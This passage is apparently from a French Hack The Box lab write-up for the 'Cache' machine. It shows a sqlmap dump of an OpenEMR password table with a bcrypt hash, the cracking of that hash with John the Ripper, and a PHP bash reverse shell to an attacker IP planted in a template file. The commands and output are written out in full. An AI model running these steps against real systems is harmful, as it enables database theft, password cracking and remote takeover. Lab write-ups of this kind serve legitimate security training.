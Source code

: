 +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| id   | salt                           | username      | password                                                     | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+

[10:09:17] [INFO] table 'openemr.users_secure' dumped to CSV file '/root/.sqlmap/output/hms.htb/dump/openemr/users_secure.csv'
[10:09:17] [INFO] fetched data logged to text files under '/root/.sqlmap/output/hms.htb'
[10:09:17] [WARNING] you haven't updated sqlmap for more than 78 days!!!

[*] ending @ 10:09:17 /2020-06-20/

root@Host-001:~/Bureau/htb/Cache# 
~~~

Crack du hash

~~~
root@Host-001:~/Bureau/htb/Cache# vim hash
root@Host-001:~/Bureau/htb/Cache# cat hash 
$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
root@Host-001:~/Bureau/htb/Cache# john -w=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-06-20 10:12) 1.470g/s 1270p/s 1270c/s 1270C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@Host-001:~/Bureau/htb/Cache# 
root@Host-001:~/Bureau/htb/Cache# john --show hash
?:xxxxxx

1 password hash cracked, 0 left
root@Host-001:~/Bureau/htb/Cache# 
~~~

le mdp est donc xxxxxx : openemr_admin::xxxxxx

On se connecte avec et on va dans Administration > Files, on sélectionne letter_templates/custom_pdf.php et on enregistre un reverse shell:

~~~
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.127/1234 0>&1'");
php?>
~~~

On se rend sur http://hms.htb/sites/default/letter_templates/custom_pdf.php et on a un shell

~~~
root@Host-001:~/Bureau/htb/Cache# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.127] from (UNKNOWN) [10.10.10.188] 34866
bash: cannot set terminal process group (2023): Inappropriate ioctl for device
bash: no job control in this shell